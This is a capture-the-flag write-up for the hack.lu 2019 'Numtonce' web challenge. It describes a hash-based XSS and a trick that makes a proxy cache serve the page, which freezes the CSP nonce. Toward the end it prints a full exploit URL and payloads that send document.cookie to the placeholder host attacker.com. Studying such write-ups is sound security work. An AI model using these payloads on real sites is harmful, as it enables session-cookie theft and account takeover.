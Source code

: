 ```yaml
---
title:  "Numtonce"
date:   "2019-10-27"
tags: ["web", "XSS", "CSP", "hacklu2019"]
author: "Alain K."
coverImagePath: "img/hacklu2019_website.png"
---
```


## Description
> With all the bad news in the world, everyone needs a calm place to wind down. 
> [We built one](https://numtonce.fluxfingersforfuture.fluxfingers.net/), 
> but you have to help us keep it safe. If you find anything suspicious, 
> [tell the forest ranger](https://numtonce.fluxfingersforfuture.fluxfingers.net/submit/)!
> He might reward you with a cookie :)

![Image of Website](img/hacklu2019_website.png)
## TL;DR
XSS is possible over URL hash. However CSP is set, so no external scripts allowed. Except if nonce tag is correct. Idea is to 
force the nonce tag to be the same after refreshes by loading the website from a cache. js/css/image files are loaded from cache, the index.php file itself not. 
Force index.php file to load from cache by appending a css filename to the url: http://url.com/index.php/blub.css. index.php will still load, 
however the proxy server things it is a css file and loads a cached version of index.php. Hence, we know the nonce in advance and can exceute custom js.

## Complete Writeup
By reading the description, it seems like the goal of the challenge is to steal a cookie from the browser. 
This is usually done by injecting custom javascript into the website (XSS) with a piece of code sending 
the cookie to a server controlled by the attacker. The forest ranger's website is just a text field to submit an URL to. 
A bot will then visit that URL with a cookie set to the flag to capture. Knowing this, the plan of attack:
1. Forge an URL that triggers custom javascript to send the cookie to a server we control
2. Submit the URL to the forest ranger bot
3. Check our server logs for stolen cookie
4. Submit the flag inside the cookie :)

Looking at the website itself, it seems to be very simplistic. It has one single page and the source code is pretty much only this javascript code:
```html
<script nonce="b80a92df721eda620876363536b7e9a6" src="/emojify.min.js"></script>
<script>
    const l=location
      let h=l.hash
      var p=l.hostname
    const s=l.search
      let a=h.split(p)
      var b=a.map((o,O)=>(O^0!==0&&o||'')).map(decodeURIComponent)
    const o0o=b.join(s)
      let script=sessionStorage[a[0]]
      var my=a=>b
    const msg='there is p' in my `t'
˂/script>

<script>
    o0o='nope'
˂/script>

A wise man once said: 'A CSP a day keeps the XSS away.`

<script>
    document.write('<div id="garden">');
    document.write(o0o||'tt t t t fnttttttttt nfst t ttt n t tl t  tnr tmtt dt n  cttttrttntt t tttttnttt   t t nt   tt tt nt  t  t  t'.split('').map(c=>({t:':evergreen_tree:',f:':fallen_leaf:',s:':squirrel:',l:':leaves:',r:':rabbit:',m:':maple_leaf:',d:':droplet:',c:':cherry_blossom:',n:'<br/>',' ':':white_small_square:'}[c])).join(''));
    document.write('</div>');

    emojify.setConfig({ img_dir: '/emojis' });
    emojify.run(garden);
</script>
```
Looking at the code, it is pretty clear that XSS over the URL is possible due to the `document.write(o0o)` line. Backtracing `o0o`, 
one can see that it is generated using the components of the url after the hashtag. Precisely, one can inject code using the following url scheme:
`https://numtonce.fluxfingersforfuture.fluxfingers.net/#numtonce.fluxfingersforfuture.fluxfingers.net<h1>test</h1>`

Next step is to try to embed our javascript code. However, that is where we hit a wall:
![Image of CSP error](img/hacklu2019_csp.png)
A CSP header was set to not allow scripts, except if the nonce tag or the scripts sha256 was correct:

`Content-Security-Policy: default-src 'none'; script-src 'sha256-CRtdY47bt+vWDdsuOTTeizFLvSy49h32pVgpWlyN0TU=' 'nonce-117bc8c1d6ead80e5b6ad3f3eca4921e'; img-src 'self'; style-src 'self'; base-uri 'none'; frame-ancestors 'none'; form-action 'none';`

The nonce is a random token that gets newly generated whenever the site reloads. 
Both options seemed impossible to us (and even the [CSP Evaulator said the header is safe](https://csp-evaluator.withgoogle.com/)), 
so we started to try to understand the rest of the javascript code and even analyze the included `emojify.js`. 
This proved to be completely unnecassary (see *Lessons learned* ). 
The rest of the javascript proved to be distractions only. It even includes a `<script>` tag that is not an actual script tag, 
but a comparison to a javascript variable called script. We spent a lot of time trying to figure out the meaning of all this but it was worthless.

After a while something intersting hit us. The js/css/image files included a strange header in the HTTP response:

`Hit-Or-Miss: i guess they never miss huh?`

This is when we noticed that js/css/iamge files were loaded from a cache. They also had an Age header, which expired after 10 minutes.
Then the idea struck, that if we managed to load the index.php from cache, the token would be the same for 10 minutes! We tried to force loading the index.php by setting some speciel request headers (Cache-Control, etc.). 
However none worked and also the bot to steal the cookie from would not have them set.

As one other header was `Server: nginx`, we looked up how to setup a basic cache on nginx. Basically, a regex filter is applied to the url and if it matches, files get cached.

So we tried to forge an URL that ends with .css but still loads index.php. After some trial and error, we forged the following url: `https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css`.

SUCCESS! The nonce token was always the same and the response had all the caching headers!

Trying out the following we get XSS with an alert ( {nonce} being the CSP nonce token that was in a previous response header):
`https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css#numtonce.fluxfingersforfuture.fluxfingers.net<script nonce="{nonce}">alert(1)</script>`

However trying to send the cookie to our server via ajax or as img src didn't work due to the CSP again. So we used the same trick again and wrote a script tag with the correct nonce:
`document.write('<script nonce="{nonce}" src="https://attacker.com/cookie='+document.cookie+'"></script>');`

In hindsight, a document.location=https://attacker.com/cookie='+document.cookie+' would have worked too.

## Final Solution
`https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css#numtonce.fluxfingersforfuture.fluxfingers.net<script nonce="{nonce}">document.write('<script nonce="{nonce}" src="https://attacker.com/cookie='+document.cookie+'"></script>');</script>`

{nonce} being the CSP nonce token that was in a previous response header with the same URL

## Lessons learned
Check and understand the CSP! We would have saved a looot of time if we understood the CSP correctly straight away. As `default-src` was set to `none`. 
We should have noticed that it is impossible to include any external resource. Meaning that even if we would have found some unsafe javascript code inside the website itself, 
it would still have been impossible to send the cookie to an external server! The only exceptions to be able to contact an external server would be if the nonce of a script tag is correct or the sha256 
of the external script would be correct. As it is impossible to find sha256 collisions, finding a correct nonce is the only possible solution. So no matter what we tried to do,
we sould have noticed from the beginning that we needed to force a valid nonce!

